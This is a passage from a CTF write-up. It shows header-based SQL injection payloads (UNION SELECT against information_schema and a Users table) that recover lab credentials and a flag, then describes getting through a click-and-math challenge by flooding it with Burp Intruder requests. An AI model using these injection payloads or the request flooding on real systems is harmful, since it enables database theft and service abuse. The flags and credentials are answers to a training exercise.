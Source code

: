 - table name

`Accept-Language: asd' UNION SELECT 'a',column_name from information_schema.columns where table_name='Users' limit 1 offset 1  --`

- column

`Accept-Language: asd' UNION SELECT 'a',table_name AS table_name_1 from information_schema.tables where table_catalog = 'MyPastaDB' and table_schema = 'public' limit 1 offset 1  --`

- Username

`Accept-Language: asd' UNION SELECT 'a',"Username" from "Users" --`

- Password

`Accept-Language: asd' UNION SELECT 'a',"Username" from "Password" --`

So the creds is  pastalover:ZThmZWU3ZTctOTk5OS00NTRlLTk3NWQt

### Flag

`ugra_localization_with_no_sanitazation_05c1962871f0`

# PPC

## Easy

### Description

![Untitled](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2010.png)

### Solution

Given a website we should click thousand times to get flag the only problem is we need to bypass the math problems

![Untitled](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2011.png)

When trying to solving the math  sometimes the result 0 is the correct one

![Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2012.png](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2012.png)

from here we can continuously send a value of 0 to get a possible question that could be an answer of 0 using intruder set to null payload and indefinitely to send continuous requests.

![Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2013.png](Ugra%20CTF%208b5bab512ba24ddf86a2bde93e1e89bb/Untitled%2013.png)

wait until we manage to click to 0 we also send threading by starting the attack many times so that the process is faster where I run 6 attack processes.

### Flag

**`ugra_sorry_for_clickbait_ok5rxau238mm`**
